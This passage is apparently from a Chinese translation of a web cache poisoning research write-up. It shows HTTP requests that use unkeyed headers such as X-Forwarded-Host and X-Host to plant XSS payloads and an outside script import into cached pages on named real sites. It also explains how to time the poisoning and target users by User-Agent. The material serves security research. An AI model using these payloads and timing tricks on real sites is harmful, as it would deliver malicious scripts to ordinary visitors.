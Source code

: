 ```
HTTP/1.1 200 OK
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```
那很简单。尽管响应没有任何表明缓存存在的标头，但我们的漏洞利用已被明确缓存。快速DNS查询提供了解释 - www.redhat.com是www.redhat.com.edgekey.net的CNAME，表明它正在使用Akamai的CDN。

### 谨慎中毒
在这一点上，我们已经证明可以通过中毒`https://www.redhat.com/en?dontpoisoneveryone=1`来进行攻击，以避免影响网站的实际访问者。为了真正毒害博客的主页并将我们的漏洞利用给所有后续访问者，我们需要确保在缓存的响应过期后我们将第一个请求发送到主页。

可以尝试使用像Burp Intruder或自定义脚本之类的工具来发送大量请求，但这种流量大的方法几乎不可能。攻击者可以通过对目标的缓存到期系统进行逆向工程并通过浏览文档和监控网站来预测准确的到期时间来避免这个问题，但这听起来就像是艰苦的工作。

幸运的是，许多网站让我们的生活更轻松。在unity3d.com中获取此缓存中毒漏洞：
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```
我们有一个未加密的输入 - the X-Host header - 用于生成脚本导入。响应标头“Age”和“max-age”分别指定当前响应的时间和它将过期的时间。总之，这些告诉我们应该发送有效Payload确切的秒数，以确保我们的响应被缓存。

### 选择性中毒
HTTP标头可以为缓存的内部工作提供其他节省时间的见解。拿下面这个著名的网站：
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"><iframe onload=alert(1)>

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
</iframe> 
```
这最初看起来几乎与第一个例子相同。但是，Vary标头告诉我们，我们的User-Agent可能是缓存键的一部分，手动测试确认了这一点。这意味着，因为我们声称使用的是Firefox 60，我们的漏洞只会提供给其他Firefox 60用户。我们可以使用受欢迎的用户代理列表来确保大多数访问者接收我们的漏洞，但这种行为使我们可以选择更具选择性的攻击。如果您了解其用户代理，则可以针对特定人员定制攻击，甚至可以隐藏自己的网站监控。

### DOM中毒
利用未加密的输入并不总是像写入XSS Payload一样容易。请采取以下要求：
```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">

```